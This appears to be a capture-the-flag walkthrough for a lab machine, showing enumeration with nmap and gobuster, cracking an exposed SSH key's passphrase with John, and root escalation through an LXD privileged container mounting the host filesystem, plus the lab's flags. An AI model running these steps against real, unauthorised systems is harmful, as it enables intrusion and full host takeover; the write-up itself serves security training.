 
# Gaming-THM CTF Walkthrough

This is a step-by-step walkthrough of the ** Gaming-THM** CTF machine. The target is a Linux host running SSH and Apache, with a web-accessible private key that eventually leads to privilege escalation through the **LXD group**.

---

## 🔎 Enumeration

### Nmap Scan

We start with a service/version scan:

```bash
nmap -sV 10.10.246.244
```

Result:

* **22/tcp** → OpenSSH 7.6p1 (Ubuntu)
* **80/tcp** → Apache 2.4.29 (Ubuntu)

---

### Gobuster Directory Scan

```bash
gobuster dir -u http://10.10.246.244 -w /usr/share/wordlists/dirb/common.txt -t 50
```

Findings:

* `/index.html` → landing page
* `/robots.txt` → contains hints
* `/secret/` → contains a private SSH key
* `/uploads/` → writable directory

---

## 🔑 Exploitation

### Step 1: Grab the SSH Private Key

From `/secret/` we download a file `pass` which is an SSH private key.

```bash
chmod 600 pass
```

### Step 2: Crack the Key Passphrase

Convert the key into a John-readable format:

```bash
ssh2john.py pass > hashedkey
john --wordlist=rockyou.txt hashedkey
```

John cracks it quickly:

```
letmein
```

---

### Step 3: SSH Access

Login as user **john**:

```bash
ssh -i pass john@10.10.246.244
```

Enter passphrase: `letmein`.

We’re in.

---

## 🧑‍💻 User Flag

Inside `john`’s home directory:

```bash
cat user.txt
```

```
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```

---

## 🚀 Privilege Escalation

### Step 1: Group Membership

Check groups:

```bash
id
```

Output:

```
uid=1000(john) gid=1000(john) groups=1000(john),108(lxd)
```

John belongs to the **lxd** group → exploitable.

---

### Step 2: Build an Alpine Image

On the attacker machine (Kali):

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

This produces:

```
alpine-v3.22-x86_64-20250908_1225.tar.gz
```

---

### Step 3: Transfer Image to Target

```bash
scp -i pass alpine-v3.22-x86_64-20250908_1225.tar.gz john@10.10.246.244:/tmp/
```

---

### Step 4: Import and Launch Container

On the target:

```bash
lxc image import /tmp/alpine-v3.22-x86_64-20250908_1225.tar.gz --alias alpine
lxc init alpine ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

---

### Step 5: Escalate to Host Root

Inside container:

```bash
ls /mnt/root
chroot /mnt/root
whoami
```

Output:

```
root
```

---

## 🏆 Root Flag

```bash
cat /root/root.txt
```

Flag obtained 🎉

---

## 📌 Summary

* **Recon** → SSH and Apache open
* **Web enum** → `/secret/` contains private key
* **Crack key** → John the Ripper → passphrase = `letmein`
* **Initial access** → SSH as `john`
* **Privilege Escalation** → LXD container escape
* **Flags**:

  * User: `a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e`
  * Root: `2e337b8c9f3aff0c2b3e8d4e6a7c88fc`

---

🔥 Machine owned 
